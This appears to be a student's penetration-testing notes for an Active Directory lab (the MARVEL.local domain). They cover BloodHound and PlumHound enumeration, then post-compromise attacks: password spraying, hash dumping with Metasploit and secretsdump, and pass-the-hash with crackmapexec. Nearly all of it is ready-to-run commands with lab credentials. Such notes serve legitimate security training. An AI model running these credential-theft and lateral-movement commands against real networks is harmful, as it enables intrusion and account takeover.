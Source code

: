 Domain Enumeration with **bloodhound-python**=>
1.Run below command
**-ns option** means your DC(Domain Controller's IP)

```bash
sudo bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns [DC-IP] -c all 
```

2.Then do **ls** command to see all things.
If you want to see via GUI, you just upload .json file into Bloodhound.

Domain Enumeration with **Plumhound**=>

When you do below command, **Bloodhound** should be up!
1.
```bash
sudo python3 PlumHound.py --easy -p [YOUR_PASS]
```

2.Another thing for all.
```bash
sudo python3 PlumHound.py -x tasks/default.tasks -p [YOUR_PASS]
```

3.Finally, by opening Firefox, you can look at results.

# Post Compromise Attacks for Active Directory

Pass the Password=>
```bash
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```

Grab some local hashes=>

First Way:

For this, we can use meterpreter by using hashdump.
```bash
use windows/smb/psexec
run
hasdump #you will get hashes of users.
```

Second Way:
```bash
secretsdump.py MARVEL.local/fcastle:Password1@10.0.0.25
```

Third Way:
```bash
secretsdump.py administrator:@192.168.138.138 --hashes [LM-HASH]:[NT-HASH]
```

Pass the Hash=>
```bash
crackmapexec smb 10.0.0.0/24 -u administrator -H [USER-HASH]
```
